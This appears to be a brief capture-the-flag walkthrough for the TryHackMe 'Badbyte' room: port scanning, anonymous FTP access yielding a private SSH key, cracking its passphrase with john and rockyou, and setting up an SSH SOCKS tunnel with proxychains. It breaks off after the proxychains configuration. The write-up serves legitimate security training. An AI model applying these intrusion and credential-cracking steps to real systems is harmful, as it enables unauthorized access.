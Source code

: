 # Badbyte

``room link``

https://tryhackme.com/room/badbyte
---

``port scan``

```
nmap -sCV 10.10.255.29
```


found **``ssh``** on ``22`` and **``ftp``** on ``30024``


``login ftp using Anonymous``

```
ftp 10.10.231.230 -P 30024
```
found : 
- notes.txt
- id_rsa

from ``notes.txt`` found that username is ``errorcauser``


**``using john to find password``**


```
ssh2john id_rsa > rsa_hash.txt
```
```
john rsa_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

password is : ``cupcake``


---

```
ssh -i id_rsa -D 1337 errorcauser@10.10.255.29
```

```
sudo nano /etc/proxychains.conf
```
> strict_chain
> 
> proxy_dns
>
> [ProxyList]
> 
> socks5 127.0.0.1 1337













